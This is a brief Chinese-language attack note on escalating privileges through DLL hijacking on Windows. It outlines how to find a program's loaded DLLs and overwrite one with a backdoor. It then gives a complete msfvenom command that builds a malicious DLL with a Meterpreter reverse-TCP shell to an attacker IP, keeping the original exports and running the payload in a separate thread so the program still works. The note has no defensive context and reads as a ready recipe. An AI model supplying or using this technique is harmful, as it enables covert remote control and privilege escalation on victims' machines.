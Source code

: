 # DLL劫持提权
1.在掌握的权限中,知道有哪些可执行程序
2.分析如何调用的dll
3.对dll进行覆盖
4.执行后则会调用后门dll

工具:
火绒剑查看程序执行情况
msf可生成后门dll
找非系统文件替换
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<攻击者IP> LPORT=<端口> -x 原始DLL路径 -k -f dll -o malicious.dll

参数解释：

-p windows/meterpreter/reverse_tcp: 指定使用的payload（反向TCP连接）。
LHOST和LPORT: 设置攻击者的IP和监听端口。
-x 原始DLL路径: 指定原始DLL作为模板，保留其导出函数。
-k: 在独立线程中运行payload，避免干扰原始DLL功能。
-f dll: 输出格式为DLL。
-o malicious.dll: 输出的恶意DLL文件名。
```


![](vx_images/346334864589157.png)